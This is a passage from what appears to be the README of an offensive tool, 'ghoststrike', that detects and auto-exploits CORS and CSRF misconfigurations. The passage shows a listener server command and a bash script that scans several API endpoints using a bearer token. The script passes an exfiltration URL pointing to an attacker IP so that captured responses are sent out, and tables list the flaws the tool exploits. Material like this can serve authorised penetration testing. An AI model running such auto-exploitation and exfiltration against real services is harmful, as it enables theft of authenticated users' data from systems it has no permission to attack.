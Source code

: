 ```bash
python3 ghoststrike.py --server --ssl --port 4443
```

### Authenticated Multi-Endpoint Testing

```bash
#!/bin/bash
# test_api.sh

API_BASE="https://api.target.com"
TOKEN="Bearer eyJhbGciOiJIUzI1NiI..."
EXFIL="https://10.10.14.144:4443/log"

for endpoint in "/v1/users" "/v1/profile" "/v1/settings" "/admin/data"; do
  echo "[*] Testing: $endpoint"
  
  python3 ghoststrike.py --scan -u "$API_BASE$endpoint" \
    -H "Authorization: $TOKEN" \
    --auto-exploit -e "$EXFIL" \
    -o "exploit${endpoint//\//_}.html"
done
```

---

## Vulnerability Coverage

### CORS Misconfigurations

| Vulnerability | Severity | Detection | Exploitation |
|--------------|----------|-----------|--------------|
| Arbitrary Origin Reflection | High | ✅ | ✅ |
| Null Origin Trust | High | ✅ | ✅ |
| Wildcard with Credentials | High | ✅ | ✅ |
| Improper Whitelist (Prefix) | High | ✅ | ✅ |
| Improper Whitelist (Suffix) | High | ✅ | ✅ |
| Wildcard (No Credentials) | Medium | ✅ | ✅ |

### CSRF Vulnerabilities

| Vulnerability | Severity | Detection | Exploitation |
|--------------|----------|-----------|--------------|
| No CSRF Protection | High | Manual | ✅ |
| CSRF Token Bypass (CORS) | High | ✅ | ✅ |
| Referer Bypass | Medium | Manual | ✅ |

---